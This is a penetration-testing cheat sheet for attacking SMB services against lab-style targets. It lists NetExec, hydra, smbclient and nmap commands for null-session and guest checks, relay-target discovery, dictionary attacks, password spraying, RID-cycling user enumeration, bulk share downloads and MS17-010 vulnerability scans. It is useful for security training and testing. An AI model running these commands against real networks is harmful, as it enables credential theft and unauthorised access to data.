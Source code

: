 ```yaml
---
description: Basic SMB Enumeration and Exploitation
---
```


# SMB

### Basic Enumeration

{% code overflow="wrap" %}
```bash
# List all NetExec modules
netexec smb 172.16.8.139 -L
# Check SMB version
netexec smb 172.16.8.139
# Check SMB Service on subnet
netexec smb 172.16.8.139/24

# Check null auth
smbclient -L 192.168.1.2 --no-pass
smbclient //192.168.1.2/public --no-pass
```
{% endcode %}

### Enumerate Null Sessions

Check if Null Session, also known as Anonymous session, is enabled on the network. Can be very useful on a Domain Controller to enumerate users, groups, password policies, etc.

```bash
netexec smb 172.16.8.139 -u 'nonexistusers' -p ''
netexec smb 172.16.8.139 -u 'nonexistusers' -p '' --shares
```

### Enumerate Guest Logon

Using a random username and password you can check if the target accepts guest logon. If so, it means that either the domain guest account or the local guest account of the server you're targetting is enabled.

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.139 -u Guest -p ''
netexec smb 172.16.8.139 -u Guest -p '' --shares
```
{% endcode %}

### Enumerate Hosts with SMB Signing Not Required

Maps the network of live hosts and saves a list of only the hosts that don't require SMB signing. List format is one IP per line.

{% code overflow="wrap" %}
```bash
netexec smb 192.168.1.0/24 --gen-relay-list relay_list.txt
```
{% endcode %}

Reference:

* [https://www.netexec.wiki/smb-protocol/enumeration](https://www.netexec.wiki/smb-protocol/enumeration)

### Dictionary Attack and Password Spraying

Dictionary attack with username and password lists.

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.10.1 smb2
```

Password spraying with NetExec

{% code overflow="wrap" %}
```bash
netexec smb 10.10.10.1 -u /usr/share/metasploit-framework/data/wordlists/common_users.txt -p 'Passw0rd' --continue-on-success
```
{% endcode %}

### Authenticated Enumeration

Shares check with credentials

{% code overflow="wrap" %}
```bash
# Check using valid account
netexec smb 172.16.8.139 -u asuka -p 'p@ssw0rd' --shares

# check with local account (not domain account)
netexec smb 172.16.8.139 -u asuka -p 'p@ssw0rd' --shares --local-auth
```
{% endcode %}

Username enumeration on Workstation using valid credentials

{% code overflow="wrap" %}
```bash
netexec smb 10.10.100.206 -u 'Jon' -p 'alqfna22' --users
```
{% endcode %}

Enum disk

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.140 -u 'Administrator' -p 'Password123' --disk --local-auth
```
{% endcode %}

Check password policy on Domain/Workstation

{% code overflow="wrap" %}
```bash
netexec smb 10.4.19.75 -u 'administrator' -p 'passw0rd' --pass-pol
```
{% endcode %}

### Password Spraying

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.139 -u username-lists.txt -p 'p@ssw0rd'
```
{% endcode %}

### RID Cycling - Username Enumeration

{% code overflow="wrap" %}
```bash
# RID Cycling with Guest 
netexec smb 172.16.8.139 -u guest -p '' --rid-brute

# RID Cycling with valid account
netexec smb 172.16.8.139 -u evasvc -p 'Serviceworks1' --rid-brute

# or with impacket-lookupsid
impacket-lookupsid 'evasvc':'Serviceworks1'@evangelion.lab

```
{% endcode %}

### SMBClient

```bash
# no pass
smbclient //192.168.1.2/public --no-pass

# with creds
smbclient //172.16.8.139/secrets-folder -U  'username'%'p@ssw0rd' -p 445

# download all files from shares
smbclient '//10.10.11.174/support-tools' -N -c 'prompt OFF;recurse ON;mget *'
```

### Vuln Checks

{% code overflow="wrap" %}
```bash
nmap -Pn --script 'smb-vuln*' -p 139,445 10.10.100.206
netexec smb 10.10.100.206 -u '' -p '' -M ms17-010
```
{% endcode %}

Example output:

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-24 23:50 WIB
Nmap scan report for 10.10.100.206 (10.10.100.206)
Host is up (0.38s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 13.31 seconds
```

```bash
netexec smb 10.10.100.206 -u '' -p '' -M ms17-010

SMB         10.10.100.206   445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)
SMB         10.10.100.206   445    JON-PC           [+] Jon-PC\: 
MS17-010                                            [+] 10.10.100.206 is likely VULNERABLE to MS17-010! (Windows 7 Professional 7601 Service Pack 1)
```

Updated soon...
